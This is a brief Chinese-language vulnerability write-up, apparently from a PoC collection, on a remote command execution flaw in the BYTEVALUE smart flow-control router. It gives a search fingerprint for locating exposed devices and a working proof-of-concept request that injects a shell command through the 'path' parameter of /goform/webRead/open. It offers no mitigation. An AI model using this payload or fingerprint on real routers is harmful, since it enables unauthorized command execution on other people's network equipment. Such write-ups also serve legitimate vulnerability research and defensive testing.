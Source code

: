 # 百为通达 智能流控路由器 open 远程命令执行漏洞

## 漏洞描述

BYTEVALUE 百为流控路由器是一款追求带宽利用率的多功能路由器。百为智能流控路由器 /goform/webRead/open 路由存在有回显的命令注入漏洞。

## 漏洞影响

百为通达 智能流控路由器

## 网络测绘

```
"BYTEVALUE 智能流控路由器"
```

## 漏洞复现

登陆页面

![image-20231116142008257](images/image-20231116142008257.png)

poc

```
GET /goform/webRead/open/?path=|id HTTP/1.1
Host:
```

![image-20231116142021268](images/image-20231116142021268.png)